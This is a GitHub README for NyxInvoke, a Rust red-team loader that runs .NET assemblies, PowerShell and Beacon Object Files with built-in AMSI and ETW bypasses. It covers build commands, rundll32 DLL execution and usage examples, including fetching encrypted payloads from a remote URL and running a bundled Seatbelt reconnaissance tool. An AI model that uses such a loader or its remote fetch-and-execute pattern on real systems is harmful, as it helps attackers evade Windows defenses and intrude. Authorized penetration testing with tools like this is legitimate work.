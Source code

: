 # NyxInvoke

NyxInvoke is a versatile Rust-based tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities. It can be compiled as either a standalone executable or a DLL.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data
- Dual-build support: can be compiled as an executable or a DLL

## Building

NyxInvoke can be built as either an executable or a DLL. Use the following commands:

### Executable

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features exe --bin NyxInvoke
```

### DLL

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features dll --lib
```

To include compiled-in CLR or BOF data, add the respective features:

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features=exe,compiled_clr,compiled_bof --bin NyxInvoke
```
or
```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features=dll,compiled_clr,compiled_bof --lib
```

## Usage

### Executable Mode

The executable supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

#### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### DLL Mode

When compiled as a DLL, NyxInvoke can be executed using rundll32. The syntax is:

```
rundll32.exe NyxInvoke.dll,NyxInvoke <mode> [OPTIONS]
```

### Mode-Specific Options

1. CLR Mode:
```text
Execute Common Language Runtime (CLR) assemblies

Usage: NyxInvoke.exe clr [OPTIONS]

Options:
      --args <ARGS>...            Arguments to pass to the assembly
      --base <URL_OR_PATH>        Base URL or path for resources
      --key <KEY_FILE>            Path to the encryption key file
      --iv <IV_FILE>              Path to the initialization vector (IV) file
      --assembly <ASSEMBLY_FILE>  Path or URL to the encrypted assembly file to execute
  -h, --help                      Print help (see more with '--help')

Example: NyxInvoke.exe clr --assembly payload.enc --key key.bin --iv iv.bin --args "arg1 arg2"
```

2. PowerShell Mode:
```text
Execute PowerShell commands or scripts

Usage: NyxInvoke.exe ps [OPTIONS]

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to PowerShell script file to execute
  -h, --help               Print help (see more with '--help')

Examples:
NyxInvoke.exe ps --command "Get-Process"
NyxInvoke.exe ps --script script.ps1
```

3. BOF Mode:
```text
Execute Beacon Object Files (BOF)

Usage: NyxInvoke.exe bof [OPTIONS]

Options:
      --args <ARGS>...      Arguments to pass to the BOF
      --base <URL_OR_PATH>  Base URL or path for resources
      --key <KEY_FILE>      Path to the encryption key file
      --iv <IV_FILE>        Path to the initialization vector (IV) file
      --bof <BOF_FILE>      Path or URL to the encrypted BOF file to execute
  -h, --help                Print help (see more with '--help')

Example: NyxInvoke.exe bof --bof payload.enc --key key.bin --iv iv.bin --args "arg1 arg2"
```

## Examples

### Executable Mode

1. CLR Mode (Remote Execution):
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Script Execution):
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

3. BOF Mode (Local Execution):
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

### DLL Mode

1. CLR Mode (Remote Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Direct Command Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke ps --command "Get-Process | Select-Object Name, ID"
   ```

3. BOF Mode (Compiled Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke bof --args "str=argument1" "int=42"
   ```


## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that List user permissions for the specified file, wildcards supported.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\Windows\system32\cmd.exe"
     ```

## Screenshot


- Dll Compiled CLR Executaion 

![Screenshot 2024-09-18 123147](https://github.com/user-attachments/assets/dd58adbc-50f2-4eb4-9a33-0851bacfe754)


- EXE Remote BOF Executaion 

![Screenshot 2024-09-18 123410](https://github.com/user-attachments/assets/54a20996-7cf3-4cbb-ab4d-6e7973094e80)


- Dll Powershell Script Executaion 

![Screenshot 2024-09-18 123547](https://github.com/user-attachments/assets/6c1e2f53-0d85-45e8-8a38-4a6dcb08a767)




## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

## Credits

- @yamakadi for the [clroxide](https://github.com/yamakadi/clroxide) project
- @hakaioffsec for the [coffee](https://github.com/hakaioffsec/coffee) project
